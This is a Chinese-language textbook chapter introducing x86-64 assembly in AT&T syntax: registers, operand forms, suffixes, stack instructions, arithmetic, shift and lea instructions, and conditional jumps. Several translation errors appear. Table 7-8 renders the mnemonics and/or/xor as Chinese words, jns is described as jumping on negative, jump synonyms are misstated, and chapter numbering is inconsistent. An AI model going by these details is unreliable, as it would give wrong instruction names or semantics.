# 第八章：64 位 x86 汇编（X86-64）


在本章中，我们将介绍 Intel 架构的 64 位（x86-64）指令集架构。回想一下，指令集架构（或 ISA；见第五章）定义了机器级程序的指令集和二进制编码。为了运行本章的示例，你需要一台配有 64 位 x86 处理器的机器。“x86”这个术语通常与 IA-32 架构同义。该架构的 64 位扩展被称为 x86-64（或 x64），并且在现代计算机中普遍存在。IA32 和 x86-64 都属于 x86 架构家族。

要检查你的 Linux 机器是否有 64 位 Intel 处理器，可以运行`uname -p`命令。如果你有一个 x86-64 系统，你应该看到类似以下的输出：

```
$ uname -p

x86_64
```

由于 x86-64 是较小的 IA32 ISA 的扩展，因此一些读者可能更喜欢讨论 IA32。欲了解更多关于 IA32 的内容，请参见第八章。

x86 语法分支

x86 架构通常遵循两种不同的语法分支之一。Unix 机器通常使用 AT&T 语法，因为 Unix 是在 AT&T 贝尔实验室开发的。对应的汇编程序是 GNU 汇编器（GAS）。由于我们在本书中的大多数示例都使用 GCC，因此本章将介绍 AT&T 语法。Windows 机器通常使用 Intel 语法，这是微软宏汇编器（MASM）使用的语法。Netwide 汇编器（NASM）是一个使用 Intel 语法的 Linux 汇编器示例。关于哪种语法优于另一种的争论，是该领域的“圣战”之一。然而，熟悉两种语法都是有价值的，因为程序员在不同的情况下可能会遇到其中的任何一种。

### 7.1 深入汇编：基础知识

对于第一次接触 x64 汇编，我们将修改第六章中的`adder`函数，以简化其行为。修改后的函数（`adder2`）如下所示：

```
#include <stdio.h>

//adds two to an integer and returns the result

int adder2(int a) {

    return a + 2;

}

int main(){

    int x = 40;

    x = adder2(x);

    printf("x is: %d\n", x);

    return 0;

}
```

要编译这段代码，使用以下命令：

```
$ gcc -o adder adder.c
```

接下来，让我们通过使用`objdump`命令查看这段代码的相应汇编：

```
$ objdump -d adder > output

$ less output
```

在使用`less`查看文件`output`时，通过键入`/adder2`来查找与`adder2`相关的代码片段。与`adder2`相关的部分应该类似于以下内容：

```
0000000000400526 <adder2>:

  400526:       55                      push   %rbp

  400527:       48 89 e5                mov    %rsp,%rbp

  40052a:       89 7d fc                mov    %edi,-0x4(%rbp)

  40052d:       8b 45 fc                mov    -0x4(%rbp),%eax

  400530:       83 c0 02                add    $0x2,%eax

  400533:       5d                      pop    %rbp

  400534:       c3                      retq
```

如果你现在还不理解发生了什么，也不用担心。我们将在后面的章节中更详细地讲解汇编语言。现在，让我们来研究这些单独指令的结构。

在前面的示例中，每一行都包含了程序内存中指令的 64 位地址、与指令对应的字节，以及指令本身的明文表示。例如，`55`是指令`push %rbp`的机器码表示，而该指令位于程序内存中的地址`0x400526`。请注意，`0x400526`是与`push %rbp`指令相关的完整 64 位地址的简写；为了可读性，前导零被省略。

需要注意的是，一行 C 代码通常会翻译成汇编中的多条指令。操作`a + 2`会由两条指令`mov -0x4(%rbp),%eax`和`add $0x2,%eax`来表示。

**警告：您的汇编代码可能会有所不同！**

如果你和我们一起编译代码，你可能会注意到你的汇编示例与本书中显示的有所不同。任何编译器输出的精确汇编指令取决于该编译器的版本以及底层操作系统。本书中的大多数汇编示例是在运行 Ubuntu 或 Red Hat Enterprise Linux（RHEL）系统上生成的。

在接下来的示例中，我们没有使用任何优化标志。例如，我们通过命令`gcc -o example example.c`编译任何示例文件（`example.c`）。因此，接下来的示例中会有许多看似冗余的指令。请记住，编译器并不是“聪明”的——它只是遵循一系列规则将人类可读的代码翻译成机器语言。在这个翻译过程中，出现一些冗余是很常见的。优化编译器在优化过程中会去除这些冗余，这部分内容在第十二章中讲解。

#### 7.1.1 寄存器

回顾一下，*寄存器*是一个位于 CPU 内部的字长存储单元。可能会有单独的寄存器用于数据、指令和地址。例如，英特尔的 CPU 有 16 个寄存器用于存储 64 位数据：`%rax`、`%rbx`、`%rcx`、`%rdx`、`%rdi`、`%rsi`、`%rsp`、`%rbp`，以及`%r8`到`%r15`。除了`%rsp`和`%rbp`外，所有寄存器都用于保存通用的 64 位数据。虽然程序可以将寄存器的内容解释为整数或地址等，但寄存器本身并不做区分。程序可以从所有 16 个寄存器中读取或写入数据。

寄存器`%rsp`和`%rbp`分别被称为*栈指针*和*帧指针*（或*基指针*）。编译器为这些寄存器保留了用于维护程序栈布局的操作。例如，寄存器`%rsp`始终指向栈顶。在早期的 x86 系统（例如 IA32）中，帧指针通常跟踪活动栈帧的基地址，并帮助引用参数。然而，在 x86-64 系统中，基指针的使用变得较少。编译器通常将前六个参数分别存储在寄存器`%rdi`、`%rsi`、`%rdx`、`%rcx`、`%r8`和`%r9`中。寄存器`%rax`用于存储函数的返回值。

最后一个值得提及的寄存器是`%rip`，即*指令指针*，有时也叫做*程序计数器*（PC）。它指向 CPU 将要执行的下一条指令。与前面提到的 16 个寄存器不同，程序不能直接写入`%rip`寄存器。

#### 7.1.2 高级寄存器符号

由于 x86-64 是 32 位 x86 架构的扩展（而 32 位 x86 本身是早期 16 位版本的扩展），ISA 提供了机制来访问每个寄存器的低 32 位、低 16 位和低字节。表 7-1 列出了每个寄存器以及访问其组件字节的 ISA 标记。

**表 7-1：** x86-64 寄存器及访问低字节的机制

| **64 位寄存器** | **32 位寄存器** | **低 16 位** | **低 8 位** |
| --- | --- | --- | --- |
| `%rax` | `%eax` | `%ax` | `%al` |
| `%rbx` | `%ebx` | `%bx` | `%bl` |
| `%rcx` | `%ecx` | `%cx` | `%cl` |
| `%rdx` | `%edx` | `%dx` | `%dl` |
| `%rdi` | `%edi` | `%di` | `%dil` |
| `%rsi` | `%esi` | `%si` | `%sil` |
| `%rsp` | `%esp` | `%sp` | `%spl` |
| `%rbp` | `%ebp` | `%bp` | `%bpl` |
| `%r8` | `%r8d` | `%r8w` | `%r8b` |
| `%r9` | `%r9d` | `%r9w` | `%r9b` |
| `%r10` | `%r10d` | `%r10w` | `%r10b` |
| `%r11` | `%r11d` | `%r11w` | `%r11b` |
| `%r12` | `%r12d` | `%r12w` | `%r12b` |
| `%r13` | `%r13d` | `%r13w` | `%r13b` |
| `%r14` | `%r14d` | `%r14w` | `%r14b` |
| `%r15` | `%r15d` | `%r15w` | `%r15b` |

前八个寄存器（`%rax`、`%rbx`、`%rcx`、`%rdx`、`%rdi`、`%rsi`、`%rsp` 和 `%rbp`）是 x86 架构的 64 位扩展，具有访问它们的低 32 位、低 16 位和最低有效字节的公共机制。要访问这前八个寄存器的低 32 位，只需将寄存器名称中的 `r` 替换为 `e`。因此，寄存器 `%rax` 对应的低 32 位寄存器是 `%eax`。要访问这些寄存器的低 16 位，只需引用寄存器名称的最后两个字母。因此，访问寄存器 `%rax` 的低两个字节的机制是 `%ax`。



*图 7-1：表示寄存器 `%rax` 子集的名称*

ISA 提供了一个独立的机制，用于访问前四个列出的寄存器中低 16 位内的八位组件。图 7-1 展示了访问寄存器 `%rax` 的机制。在前四个列出的寄存器的低 16 位中，可以通过将寄存器名称的最后两个字母替换为 `h`（表示 *高* 字节）或 `l`（表示 *低* 字节）来访问高字节和低字节，具体取决于需要访问的字节。例如，`%al` 代表寄存器 `%ax` 的低 8 位，而 `%ah` 代表寄存器 `%ax` 的高 8 位。这些八位寄存器通常用于存储单字节值，用于某些操作，如位移（32 位寄存器不能被移位超过 32 位，数字 32 只需要一个字节的存储）。

**警告 WARNING：编译器可能根据类型选择组件寄存器**

阅读汇编代码时，要记住编译器通常在处理 64 位值（例如指针或`long`类型）时使用 64 位寄存器，在处理 32 位类型（例如`int`）时使用 32 位寄存器。在 x86-64 中，常常会看到 32 位寄存器与完整的 64 位寄存器混合使用。例如，在前面展示的`adder2`函数中，编译器引用了 32 位寄存器`%eax`而不是`%rax`，因为`int`类型通常在 64 位系统中占用 32 位（四字节）空间。如果`adder2`函数的参数是`long`类型而不是`int`，编译器会将`a`存储在寄存器`%rax`中，而不是寄存器`%eax`。

最后的八个寄存器（`%r8`–`%r15`）不是 IA32 指令集的一部分。然而，它们也有访问其不同字节组件的机制。要访问最后八个寄存器的低 32 位、16 位或字节，只需在寄存器名后添加字母`d`、`w`或`b`。因此，`%r9d`访问寄存器`%r9`的低 32 位，而`%r9w`访问低 16 位，`%r9b`访问寄存器`%r9`的最低字节。

#### 7.1.3 指令结构

每条指令由操作码（或*操作符*）组成，用于指定它的功能，以及一个或多个*操作数*，用于指示指令如何执行。例如，指令`add $0x2,%eax`的操作码是`add`，操作数是`$0x2`和`%eax`。

每个操作数对应于特定操作的源或目标位置。两操作数指令通常遵循源、目标（`S`、`D`）格式，其中第一个操作数指定源寄存器，第二个操作数指定目标寄存器。

操作数有多种类型：

+   *常量*（*字面值*）值前面带有`$`符号。例如，在指令`add $0x2,%eax`中，`$0x2`是一个字面值，对应于十六进制值 0x2。

+   *寄存器*形式指的是单独的寄存器。因此，指令`mov %rsp,%rbp`表示将源寄存器（`%rsp`）中的值复制到目标位置（寄存器`%rbp`）。

+   *内存*形式对应于主内存（RAM）中的某个值，并常用于地址查找。内存地址形式可以包含寄存器和常量值的组合。例如，在指令`mov -0x4(%rbp),%eax`中，操作数`-0x4(%rbp)`就是内存形式的一个示例。它大致翻译为“将-0x4 加到寄存器`%rbp`中的值上（即从`%rbp`中减去 0x4），然后进行内存查找。”如果这听起来像是指针解引用，那就是因为它确实是！

#### 7.1.4 带操作数的示例

解释操作数的最佳方式是通过一个简短的示例。假设内存中包含以下值：

| **地址** | **值** |
| --- | --- |
| 0x804 | 0xCA |
| 0x808 | 0xFD |
| 0x80c | 0x12 |
| 0x810 | 0x1E |

假设以下寄存器包含所示的值：

| **寄存器** | **值** |
| --- | --- |
| `%rax` | 0x804 |
| `%rbx` | 0x10 |
| `%rcx` | 0x4 |
| `%rdx` | 0x1 |

然后表 7-2 中的操作数会计算出其中显示的值。表格的每一行将操作数与其形式（例如常量、寄存器、内存）、翻译方式以及值进行匹配。请注意，在这个上下文中，M[x]表示由地址 x 指定的内存位置中的值。

**表 7-2：** 示例操作数

| **操作数** | **形式** | **翻译** | **值** |
| --- | --- | --- | --- |
| `%rcx` | 寄存器 | `%rcx` | 0x4 |
| `(%rax)` | 内存 | M[`%rax`] 或 M[0x804] | 0xCA |
| `$0x808` | 常量 | 0x808 | 0x808 |
| `0x808` | 内存 | M[0x808] | 0xFD |
| `0x8(%rax)` | 内存 | M[`%rax` + 8] 或 M[0x80c] | 0x12 |
| `(%rax, %rcx)` | 内存 | M[`%rax` + `%rcx`] 或 M[0x808] | 0xFD |
| `0x4(%rax, %rcx)` | 内存 | M[`%rax` + `%rcx` + 4] 或 M[0x80c] | 0x12 |
| `0x800(,%rdx,4)` | 内存 | M[0x800 + `%rdx`×4] 或 M[0x804] | 0xCA |
| `(%rax, %rdx, 8)` | 内存 | M[`%rax` + `%rdx`×8] 或 M[0x80c] | 0x12 |

在表 7-2 中，符号 `%rcx` 表示寄存器 `%rcx` 中存储的值。相比之下，M[`%rax`] 表示 `%rax` 中的值应该被视为地址，并通过该地址解引用（查找）值。因此，操作数 `(%rax)` 对应于 M[0x804]，其值为 0xCA。

在继续之前，有几个重要的注意事项。虽然表 7-2 显示了许多有效的操作数形式，但并不是所有形式都可以在所有情况下互换使用。具体来说：

+   常量形式不能作为目标操作数。

+   内存形式不能作为*源*和*目标*操作数同时出现在单条指令中。

+   在缩放操作的情况下（请回顾表 7-2 中的最后两个操作数），缩放因子是括号中的第三个参数。缩放因子可以是 1、2、4 或 8 之一。

表 7-2 作为参考提供，但理解关键操作数形式有助于提高读者解析汇编语言的速度。

#### 7.1.5 指令后缀

在接下来的几个例子中，常见的和算术指令都有一个后缀，表示在代码级别操作的数据的*大小*（与*类型*相关）。编译器会自动将代码翻译成带有适当后缀的指令。表 7-3 展示了 x86-64 指令的常见后缀。

**表 7-3：** 示例指令后缀

| **后缀** | **C 类型** | **大小（字节）** |
| --- | --- | --- |
| b | `char` | 1 |
| w | `short` | 2 |
| l | `int` 或 `unsigned` | 4 |
| s | `float` | 4 |
| q | `long`，`unsigned long`，所有指针 | 8 |
| d | `double` | 8 |

请注意，与条件执行相关的指令具有基于评估条件的不同后缀。我们在“条件控制与循环”章节中讨论与条件执行相关的指令，详见第 310 页。

### 7.2 常见指令

在本节中，我们讨论几种常见的汇编指令。表 7-4 列出了 x86（因此也适用于 x64）汇编中的最基础指令。

**表 7-4：** 最常用的指令

| **指令** | **翻译** |  |
| --- | --- | --- |
| `mov S,D` | S → D | （将 S 的值复制到 D 中） |
| `add S,D` | S + D → D | （将 S 加到 D，并将结果存储在 D 中） |
| `sub S,D` | D – S → D | （从 D 中减去 S，并将结果存储在 D 中） |

因此，指令序列

```
mov    -0x4(%rbp),%eax

add    $0x2,%eax
```

翻译为：

+   将 *内存* 中位置 `%rbp` + –0x4 处的值（或 M[`%rbp`– 0x4]）复制到寄存器 `%eax`。

+   将值 0x2 加到寄存器 `%eax` 中，并将结果存储在寄存器 `%eax` 中。

表 7-4 中显示的三条指令也构成了维持程序堆栈组织的指令（即 *调用堆栈*）的基石。回顾一下 `%rbp` 和 `%rsp` 寄存器分别指向 *帧* 指针和 *栈* 指针，并且被编译器保留用于调用堆栈管理。回忆我们之前在《程序内存的组成与作用》一节中关于程序内存的讨论（见第 64 页），调用堆栈通常存储局部变量和参数，并帮助程序追踪其执行（见图 7-2）。在 x86-64 系统上，执行堆栈是向 *较低* 地址增长的。像所有堆栈数据结构一样，操作发生在堆栈的“顶部”。


*图 7-2：程序地址空间的组成部分*

x86-64 ISA 提供了两条指令（表 7-5）来简化调用堆栈管理。

**表 7-5：** 堆栈管理指令

| **指令** | **翻译** |
| --- | --- |
| `push S` | 将 S 的副本推送到堆栈的顶部。等价于：`sub $0x8,%rsp``mov S,(%rsp)` |
| `pop D` | 从堆栈顶端弹出元素，并将其放入位置 D。等价于：`mov (%rsp),D``add $0x8,%rsp` |

请注意，虽然表 7-4 中的三条指令需要两个操作数，表 7-5 中的 `push` 和 `pop` 指令每条只需要一个操作数。

#### 7.2.1 将一切结合起来：一个更具体的例子

让我们仔细看看 `adder2` 函数

```
//adds two to an integer and returns the result

int adder2(int a) {

    return a + 2;

}
```

及其对应的汇编代码：

```
0000000000400526 <adder2>:

  400526:       55                      push   %rbp

  400527:       48 89 e5                mov    %rsp,%rbp

  40052a:       89 7d fc                mov    %edi,-0x4(%rbp)

  40052d:       8b 45 fc                mov    -0x4(%rbp),%eax

  400530:       83 c0 02                add    $0x2,%eax

  400533:       5d                      pop    %rbp

  400534:       c3                      retq
```

汇编代码由一条`push`指令、三条`mov`指令、一条`add`指令、一条`pop`指令和最后一条`retq`指令组成。为了理解 CPU 如何执行这一组指令，我们需要重新回顾程序内存的结构（参见第 64 页的“程序内存的部分和作用域”）。回想一下，每当程序执行时，操作系统会分配新的程序地址空间（也称为*虚拟内存*）。虚拟内存和相关的进程概念将在第十三章中详细讨论；现在，只需将进程视为正在运行的程序的抽象，而虚拟内存则是分配给单个进程的内存。每个进程都有自己的内存区域，称为*调用栈*。请记住，调用栈位于进程/虚拟内存中，不同于位于 CPU 上的寄存器。

图 7-3 描绘了`adder2`函数执行前，调用栈和寄存器的一个示例状态。



*图 7-3：执行栈（执行前状态）*

请注意，栈是朝向*较低*地址增长的。寄存器`%eax`包含一个垃圾值。`adder2`函数的唯一参数（`a`）按约定存储在寄存器`%rdi`中。由于`a`是`int`类型，它被存储在组件寄存器`%edi`中，如图 7-3 所示。同样，由于`adder2`函数返回一个`int`类型的值，返回值存储在组件寄存器`%eax`中，而不是`%rax`。

为了提高图示的可读性，程序内存中代码段的指令地址（0x400526–0x400534）已被简化为 0x526–0x534。同样，程序内存中调用栈段的地址也已从 0x7fffffffdd28–0x7fffffffdd1c 简化为 0xd28–0xd1c。实际上，调用栈的地址在程序内存中的位置远高于代码段地址。

请特别注意寄存器`%rsp`和`%rbp`的初始值：它们分别是 0xd28 和 0xd40。下图中的左上箭头直观地指示了当前正在执行的指令。`%rip`寄存器（或指令指针）显示了下一条要执行的指令。最初，`%rip`包含地址 0x526，该地址对应于`adder2`函数中的第一条指令。



第一条指令（`push %rbp`）将寄存器`%rbp`（或 0xd40）中的值复制到栈顶。执行后，`%rip`寄存器会指向下一条指令的地址（0x527）。`push`指令将栈指针减少 8（“增长”栈 8 个字节），导致新的`%rsp`值为 0xd20。回想一下，`push %rbp`指令等价于：

```
sub $8, %rsp

mov %rbp, (%rsp)
```

换句话说，将栈指针减去 8，并将寄存器`%rbp`的内容复制到栈指针解引用的位置`(%rsp)`中。



回想一下，`mov`指令的结构是`mov S,D`，其中 S 是源位置，D 是目标位置。因此，下一条指令（`mov %rsp,%rbp`）将更新`%rbp`的值为 0xd20。寄存器`%rip`推进到下一个要执行的指令地址，即 0x52a。



接下来，执行`mov %edi,-0x4(%rbp)`指令。这比上一条`mov`指令稍微复杂一些。我们逐步解析。首先，回想一下，任何函数的第一个参数都存储在寄存器`%rdi`中。由于`a`是`int`类型，编译器将第一个参数存储在分量寄存器`%edi`中。接下来，操作数`-0x4(%rbp)`表示`M[%rbp - 0x4]`。由于`%rbp`的值为 0xd20，减去 4 得到 0xd1c。因此，`mov`指令将寄存器`%edi`的值（即 0x28）复制到栈上 0xd1c 的位置。指令指针推进到下一个要执行的地址 0x52d。

请注意，存储值 0x28 不会影响栈指针（`%rsp`）。因此，就程序而言，这个栈的“顶部”仍然是地址 0xd20。



下一条`mov`指令（`mov -0x4(%rbp),%eax`）将栈位置 0xd1c 的值（即 M[`%rbp` – 0x4]或 0x28）复制并存储到寄存器`%eax`中。寄存器`%rip`推进到下一条要执行的指令地址，即 0x530。


接下来，执行`add $0x2,%eax`。回想一下，`add`指令的形式是`add S,D`，将 S + D 的结果存储在目标 D 中。因此，`add $0x2,%eax`将常量值 0x2 加到寄存器`%eax`中存储的值（即 0x28），结果是寄存器`%eax`中存储值 0x2A。寄存器`%rip`推进到下一个要执行的指令地址，即 0x533。



下一条执行的指令是`pop %rbp`。该指令将调用栈顶部的值“弹出”，并将其放入目标寄存器`%rbp`中。回想一下，这条指令等价于以下两条指令的组合：

```
mov (%rsp), %rbp

add $8, %rsp
```

回想一下，栈顶是 0xd20，因为这是`%rsp`中存储的值。因此，一旦执行该指令，`(%rsp)`（即 M[0xd20]）的值将被复制到寄存器`%rbp`中。因此，`%rbp`现在包含值 0xd40。栈指针按 8 递增，因为栈是向低地址方向增长（因此，*向高地址方向收缩*）。`%rsp`的新值为 0xd28，`%rip`现在指向最后一条要执行的指令地址（即 0x534）。

最后执行的指令是`retq`。我们将在后续章节讨论函数调用时更详细地讲解`retq`的作用，但现在了解它是为返回函数时准备调用栈就足够了。按照惯例，寄存器`%rax`始终包含返回值（如果存在）。在本例中，由于`adder2`是`int`类型，返回值存储在寄存器`%eax`中，函数返回值为 0x2A，即 42。

在我们继续之前，注意寄存器`%rsp`和`%rbp`中的最终值分别是 0xd28 和 0xd40，这与函数开始执行时的值*相同*！这在调用栈中是正常且预期的行为。调用栈的作用是存储每个函数在程序执行过程中所使用的临时变量和数据。当函数执行完毕时，栈会恢复到函数调用前的状态。因此，在函数开始时，通常会看到以下两条指令：

```
push %rbp

mov %rsp, %rbp
```

以及在函数结尾的以下两条指令：

```
pop %rbp

retq
```

### 7.3 算术指令

x86 架构实现了几个与 ALU 执行的算术操作对应的指令。表 7-6 列出了在阅读汇编代码时可能遇到的几种算术指令。

**表 7-6：** 常见算术指令

| **指令** | **翻译** |
| --- | --- |
| `add S,D` | S + D → D |
| `sub S,D` | D – S → D |
| `inc D` | D + 1 → D |
| `dec D` | D – 1 → D |
| `neg D` | –D → D |
| `imul S,D` | S × D → D |
| `idiv S` | `%rax` / S: 商 → `%rax`，余数 → `%rdx` |

`add`和`sub`指令对应加法和减法，每个指令需要两个操作数。接下来的三行显示了 C 语言中单寄存器的增量（`x++`）、减量（`x--`）和取反（`-x`）操作。乘法指令操作两个操作数，并将结果存入目的地。如果乘积需要超过 64 位来表示，则该值会被截断为 64 位。

除法指令的工作方式稍有不同。在执行`idiv`指令之前，假设寄存器`%rax`包含被除数。对操作数 S 调用`idiv`时，将`%rax`中的内容除以 S，并将商存入寄存器`%rax`，余数存入寄存器`%rdx`。

#### 7.3.1 位移指令

位移指令使编译器能够执行位移操作。乘法和除法指令通常需要较长的执行时间。位移提供了编译器对 2 的幂次乘数和除数的捷径。例如，要计算`77 * 4`，大多数编译器会将此操作转换为`77 << 2`，以避免使用`imul`指令。同样，要计算`77 / 4`，编译器通常会将此操作转换为`77 >> 2`，以避免使用`idiv`指令。

请记住，左移和右移操作根据目标是算术（有符号）移位还是逻辑（无符号）移位，所对应的指令不同。

**表 7-7：** 移位指令

| **指令** | **翻译** | **算术或逻辑？** |
| --- | --- | --- |
| `sal v,D` | D `≪` v → D | 算术 |
| `shl v,D` | D `≪` v → D | 逻辑 |
| `sar v,D` | D `≫` v → D | 算术 |
| `shr v,D` | D `≫` v → D | 逻辑 |

每条移位指令都有两个操作数，一个通常是寄存器（记作 D），另一个是移位值（*v*）。在 64 位系统中，移位值被编码为一个字节（因为移位超过 63 是没有意义的）。移位值 *v* 必须是常量或存储在寄存器 `%cl` 中。

**注意：不同版本的指令有助于在汇编层面区分类型**

在汇编层面，没有类型的概念。然而，回忆一下编译器会根据类型使用不同的寄存器。同样，记住右移操作根据值是有符号还是无符号，工作方式也不同。在汇编层面，编译器使用不同的指令来区分逻辑移位和算术移位！

#### 7.3.2 按位指令

按位指令使编译器能够对数据执行按位操作。编译器使用按位操作的一种方式是进行某些优化。例如，编译器可能会选择使用 `77 & 3` 来代替开销更大的 `idiv` 指令来实现 `77 mod 4`。

表 7-8 列出了常见的按位操作指令。

**表 7-8：** 按位操作

| **指令** | **翻译** |
| --- | --- |
| `与 S,D` | S `&` D → D |
| `或 S,D` | S `&#124;` D → D |
| `异或 S,D` | S `^` D → D |
| `not D` | `~`D → D |

记住，按位 `not` 操作与取反操作（`neg`）不同。`not` 指令翻转比特位，但不加 1。小心不要混淆这两条指令。

**警告：只有在需要时才在 C 代码中使用按位操作！**

阅读完本节内容后，可能会有冲动想用按位移位和其他操作替代 C 代码中的常见算术操作。但*不推荐*这样做。大多数现代编译器足够智能，在合适的时候将简单的算术操作替换为按位操作，这样程序员就无需手动做出这些优化。一般来说，程序员应优先考虑代码可读性，避免过早优化。

#### 7.3.3 加载有效地址指令

*lea 和这有什么关系？*

*lea 不就是一个有效地址加载吗？*

—向蒂娜·特纳致歉

我们终于来到了 *加载有效地址* 或 `lea` 指令，它可能是学生最困惑的算术指令。它通常用作快速计算内存中位置地址的一种方式。`lea` 指令在我们迄今为止看到的相同操作数结构上操作，但 *不* 包含内存查找。无论操作数中包含的数据类型（无论是常数值还是地址），`lea` 仅执行算术运算。

例如，假设寄存器 `%rax` 存储常数值 0x5，寄存器 `%rdx` 存储常数值 0x4，寄存器 `%rcx` 存储值 0x808（这恰好是一个地址）。表 7-9 展示了一些 `lea` 操作示例、它们的翻译和相应的值。

**表 7-9：** 示例 lea 操作

| **指令** | **翻译** | **值** |
| --- | --- | --- |
| `lea 8(%rax), %rax` | 8 + `%rax` → `%rax` | 13 → `%rax` |
| `lea (%rax, %rdx), %rax` | `%rax` + `%rdx` → `%rax` | 9 → `%rax` |
| `lea (,%rax,4), %rax` | `%rax` × 4 → `%rax` | 20 → `%rax` |
| `lea -0x8(%rcx), %rax` | `%rcx` – 8 → `%rax` | 0x800 → `%rax` |
| `lea -0x4(%rcx, %rdx, 2), %rax` | `%rcx` + `%rdx` × 2 – 4 → `%rax` | 0x80c → `%rax` |

在所有情况下，`lea` 指令对源操作数 S 所指定的操作数执行算术运算，并将结果放入目标操作数 D 中。`mov` 指令与 `lea` 指令相同，*唯一的区别*是 `mov` 指令在源操作数是内存形式时，*必须*将其内容视为内存地址。而 `lea` 则执行相同（有时是复杂的）操作数算术运算，*不进行*内存查找，使得编译器可以巧妙地使用 `lea` 来替代某些类型的算术操作。

### 7.4 条件控制与循环

本节介绍了 x86 汇编指令中的条件语句和循环（请参见第 30 页中的“条件语句和循环”）。回顾一下，条件语句使得程序员可以根据条件表达式的结果修改程序的执行流程。编译器将条件语句转换成汇编指令，这些指令通过修改指令指针（`%rip`）来跳转到程序序列中不是下一个地址的地方。

#### 7.4.1 前提

##### 条件比较指令

比较指令执行算术运算，以指导程序的条件执行。表 7-10 列出了与条件控制相关的基本指令。

**表 7-10：** 条件控制指令

| **指令** | **翻译** |
| --- | --- |
| `cmp R1, R2` | 比较 R1 和 R2（即计算 R2 – R1） |
| `test R1, R2` | 计算 R1 `&` R2 |

`cmp` 指令比较两个寄存器 R2 和 R1 的值。具体来说，它计算 R2 减去 R1 的结果。`test` 指令执行按位与运算。常见的指令可能是：

```
test %rax, %rax
```

在本例中，`%rax` 与自身的按位与操作仅当 `%rax` 包含零时结果为零。换句话说，这是对零值的测试，等效于：

```
cmp $0, %rax
```

不像迄今为止所涵盖的算术指令，`cmp` 和 `test` 不修改目标寄存器。相反，这两条指令修改一系列称为*条件码标志位*的单比特值。例如，`cmp` 将根据 R2 – R1 的值是正数（大于）、负数（小于）还是零（等于）来修改条件码标志位。请回忆条件码值编码了 ALU（见第 261 页上的“ALU”）。条件码标志位是 x86 系统中 `FLAGS` 寄存器的一部分。

**表 7-11：** 常见条件码标志位

| **标志位** | **翻译** |
| --- | --- |
| `ZF` | 等于零（1：是；0：否） |
| `SF` | 是否为负数（1：是；0：否） |
| `OF` | 溢出发生了（1：是；0：否） |
| `CF` | 算术进位发生了（1：是；0：否） |

表 7-11 描述了用于条件码操作的常见标志位。重新审视 `cmp R1, R2` 指令：

+   当 R1 和 R2 相等时，`ZF` 标志位被设置为 1。

+   如果 R2 小于 R1（R2 – R1 导致负值），则 `SF` 标志位被设置为 1。

+   如果操作 R2 – R1 导致整数溢出，则 `OF` 标志位被设置为 1（适用于有符号比较）。

+   如果操作 R2 – R1 导致进位操作，则 `CF` 标志位被设置为 1（适用于无符号比较）。

`SF` 和 `OF` 标志位用于有符号整数比较操作，而 `CF` 标志位用于无符号整数比较。虽然对条件码标志位的深入讨论超出了本书的范围，但 `cmp` 和 `test` 设置这些寄存器使得我们接下来介绍的一组指令（*跳转*指令）能够正确运行。

##### 跳转指令

跳转指令使得程序可以“跳转”到代码中的新位置执行。在迄今为止跟踪的汇编程序中，`%rip` 总是指向程序存储器中的下一条指令。跳转指令使得 `%rip` 可以设置为一个尚未见过的新指令（如 `if` 语句中的情况）或者已经执行过的指令（如循环中的情况）。

**表 7-12：** 直接跳转指令

| **指令** | **描述** |
| --- | --- |
| `jmp L` | 跳转到由 L 指定的位置 |
| `jmp *addr` | 跳转到指定地址 |

**直接跳转指令。**   表 7-12 列出了直接跳转指令集；`L` 指的是一个*符号标签*，它在程序的目标文件中充当标识符。所有标签由一些字母和数字组成，后跟一个冒号。标签可以是程序文件范围内的*本地*或*全局*标签。函数标签通常是*全局*的，并且通常由函数名称和冒号组成。例如，`main:`（或 `<main>:`）用于标记用户定义的 `main` 函数。相比之下，作用域为*本地*的标签前面带有一个点。例如，`.L1:` 是在 `if` 语句或循环上下文中可能遇到的本地标签。

所有标签都有关联的地址。当 CPU 执行 `jmp` 指令时，会修改 `%rip` 以反映由标签 `L` 指定的程序地址。汇编程序员还可以使用 `jmp *` 指令指定要跳转到的特定地址。有时，本地标签显示为相对于函数开头的偏移量。因此，距离 `main` 开始处 28 字节的指令可能被表示为标签 `<main+28>`。

例如，指令 `jmp 0x8048427 <main+28>` 表示跳转到地址 0x8048427，其关联标签为 `<main+28>`，表示距离 `main` 函数起始地址 28 字节处。执行此指令会将 `%rip` 设置为 0x8048427。

**条件跳转指令。**    条件跳转指令的行为取决于由 `cmp` 指令设置的条件码寄存器。表 7-13 列出了常见条件跳转指令集。每条指令以字母 `j` 开头，表示它是一条跳转指令。每条指令的后缀指示跳转的条件。跳转指令的后缀还确定了是将数值比较解释为有符号还是无符号。

**表 7-13：** 条件跳转指令；同义词显示在括号中

| **有符号比较** | **无符号比较** | **描述** |
| --- | --- | --- |
| `je` (`jz`) |  | 等于时跳转（==）或零时跳转 |
| `jne` (`jnz`) |  | 不等于时跳转（!=） |
| `js` |  | 负数时跳转 |
| `jns` |  | 负数时跳转 |
| `jg` (`jnle`) | `ja` (`jnbe`) | 大于时跳转（>） |
| `jge` (`jnl`) | `jae` (`jnb`) | 大于等于时跳转（>=） |
| `jl` (`jnge`) | `jb` (`jnae`) | 小于时跳转（<） |
| `jle` (`jng`) | `jbe` (`jna`) | 小于等于时跳转（<=） |

不要记忆这些不同的条件跳转指令，通过读出指令后缀更有帮助。表 7-14 列出了常见跳转指令中常见的字母及其对应的单词。

**表 7-14：** 跳转指令后缀

| **字母** | **单词** |
| --- | --- |
| `j` | 跳转 |
| `n` | 不 |
| `e` | 等于 |
| `s` | 有符号 |
| `g` | 大于（有符号解释） |
| `l` | 小于（有符号解释） |
| `a` | 大于（无符号解释） |
| `b` | 下面（无符号解释） |

如果读出这些指令，我们可以看到 `jg` 对应于 *跳转大于*，而它的带符号同义词 `jnl` 则代表 *跳转不小于*。同样，无符号版本 `ja` 代表 *跳转大于*，而它的同义词 `jnbe` 代表 *跳转不小于或等于*。

如果你将这些指令读出来，会有助于理解为什么某些同义词对应特定的指令。另一点需要记住的是，*greater* 和 *less* 会指示 CPU 将数字比较解释为带符号值，而 *above* 和 *below* 则表明数字比较是无符号的。

##### goto 语句

在以下的小节中，我们将讨论汇编中的条件语句和循环，并将它们反向工程回 C 语言。当将汇编代码中的条件语句和循环翻译回 C 语言时，理解对应的 C 语言`goto`形式是很有帮助的。`goto`语句是 C 语言中的一种原语，它强制程序执行跳转到代码中的另一行。与 `goto` 语句相关的汇编指令是 `jmp`。

